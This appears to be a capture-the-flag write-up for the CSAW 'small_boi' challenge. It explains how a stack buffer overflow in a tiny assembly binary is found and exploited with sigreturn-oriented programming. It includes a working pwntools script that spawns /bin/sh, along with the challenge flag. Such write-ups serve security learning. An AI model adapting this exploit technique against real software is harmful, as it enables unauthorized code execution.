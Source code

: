 # SMALL BOI (100)

We're provided with a 64bit stripped binary.

We execute it and it's just asking for input without doing anything. 

Nothing to note so let's open it in IDA and analyse the disassembly.

![img1](ida.png)

No PLT entries registred so no linking we can assume that this binary is implemented in pure assembly no library function calls just chain of instructions in assembly.

It calls the function at offset `0x40018C` then it make an exit syscall.

Let's analyse that function:

![img2](ida1.png)

it makes a syscall with value of `0` in `EAX` register so after referencing to the syscall table for x64 arch we find that it's a read syscall.


![img3](syscall.png)

So it reads `0x200` bytes from `STDIN` and puts it in a buffer locacted in the `stack`.

It seems to control the number of bytes but it still may be a Buffer Overflow vulnerability here if the size allocated for the buffer is less than 0x200 let's try that.


```bash
[13:06:21]kerro@BOX:~/csaw/pwn/small_boi$ python -c 'print "A"*0x200' | ./small_boi 
Segmentation fault
[13:06:23]kerro@BOX:~/csaw/pwn/small_boi$ 
```

and Yes! `Segmentation fault` let's see which register caused that fault exactly:

![img4](fault.png)

We control the Instructions Pointer (RIP).

My first thoughts was to control `EAX`,`RDI`,`RSI` AND `RDX` to make a `execve("/bin/sh",0,0)` but after seeing the gadgets provided in the binary i realised that it's impossible(for me) to do that and we don't have any library linked so no `/bin/sh` string .

![img5](gadgets.png)

But look closely, at line 20 thats a syscall with code `0xf` different from `exit` and `read` syscalls. Referencing again to x64 syscall table we know that it's a [Sigreturn](https://en.wikipedia.org/wiki/Sigreturn-oriented_programming) syscall.

After googling the technique we know that it builds a new frame in the stack in which allocated and initialized the new frame context (new registers values and new stack...)

First let's determine  the offset to control the RIP:

![img6](off.png)

It's 40.

Now let's try performing this by making the program jump to that syscall and filling the stack with junk values and see if we control all the registers or not.

![img7](pay1.png)


![img8](pay2.png)

  And yes we control everything. Now the big problem is where can we find `/bin/sh` string to perform the desired call `execve("/bin/sh",0,0)` ?
  
  Well that took me a while thinking about a way to get that string or a way to write it in a writable area in the binary and return to it.
  
  But after examining the strings of the binary I figured out that it's here already!
  
  ![img9](strings.png)
  
  So all we have to do is to determine its offset in the `.rodata` section (ReadOnly data) .
  
  ![img10](binsh.png)
  
  Its offset is `0x4001ca` .
  So now the attack scenario is simple: perform a buffer overflow attack to control the instructions pointer in order to make a sigreturn syscall then fill the rest of the memory with the context of the new frame we don't even have to know the location of the new frame just fill enough space.
  
  Pwntools will help us to construct the new frame.
 
  New frame context content:
  
  -)RAX=59 (the number of the execve syscall)
  
  -)RDI=address of `/bin/sh` string
  
  -)RSI=0 (second argument of execve)
  
  -)RDX=0 (third argument of execve)
  
  -)RSP=random logic adress (with RW permissions) we can use `vmmap` in gdb-peda to get such adress.
  
  -)RIP=syscall gadget(provided at 35th line in gadgets)
   
  Here's the final exploit:
  
  ```python
  from pwn import *
context.clear(arch="amd64")
paylaod = ""
paylaod += "A"*40
paylaod += p64(0x000000000040018a)
paylaod += p64(0xf)
paylaod += p64(0x0000000000400185)
frame = SigreturnFrame(kernel="amd64")
frame.rax = 59
frame.rdi = 0x4001ca
frame.rsi = 0
frame.rdx = 0
frame.rsp = 0x0000000000601000
frame.rip = 0x0000000000400185
paylaod += str(frame)*10
p = process("./small_boi")
p.sendline(paylaod)
p.interactive()
```
And here we are!

![img11](final.png)

FLAG: `flag{sigrop_pop_pop_pop}`
